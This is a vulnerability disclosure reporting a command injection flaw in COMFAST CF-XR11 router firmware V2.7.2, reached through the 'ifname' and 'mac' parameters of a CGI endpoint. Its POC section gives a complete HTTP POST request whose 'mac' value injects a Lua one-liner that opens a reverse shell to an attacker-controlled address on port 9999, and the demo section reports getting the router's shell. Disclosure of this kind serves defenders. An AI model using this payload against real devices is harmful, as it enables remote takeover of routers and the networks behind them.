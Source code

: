 # CVE-ID

none

# Information

**Vendor of the products:**  COMFAST

**Vendor's website:**  http://www.comfast.cn/

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com)) & w4rd3n(w4rd3n.iadc@gmail.com)

**Affected products:** COMFAST CF-XR11

**Affected firmware version:** V2.7.2

**Firmware download address:** http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar

# Overview

`COMFAST CF-XR11 V2.7.2` has a command injection vulnerability detected at function `sub_410074`. Attackers can send `POST` request messages to `/usr/bin/webmgnt` and inject evil commands into parameter `ifname` or `mac` to execute arbitrary commands by URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc`.

# Product parameters

`COMFAST CF-XR11 V2.7.2` is an 1800Mbps smart MESH router. The test version(the newest version) here is `V2.7.2`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/usr/bin/webmgnt`.

In the function `sub_410074`, the program uses function `blobmsg_parse` to obtain the content of parameter `ifname`, `mac`  which are sent by `POST` request. On line 24, the attacker can complete command execution by controlling the `ifname`  or `mac` variable.

![](imgs/2.png)

# POC

Send the following to the URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc` by `POST` request.

```
POST /cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc HTTP/1.1
Host: 192.168.0.1
Content-Length: 172
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: appliation/json
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=f200a8c0-581cfffffff8ffffff90ffffffd044-65dafb23
Connection: close

{"ifname":"127.0.0.1",
	"mac":
"1 `lua -e \"require('socket');require('os');t=socket.tcp();t:connect('192.168.0.228','9999');os.execute('/bin/sh -i <&3 >&3 2>&3 &');\"`"}
```

# Attack Demo

After sending the POC, the malicious command will be executed and we can get the router's shell.

![](imgs/3.png)

![](imgs/4.png)

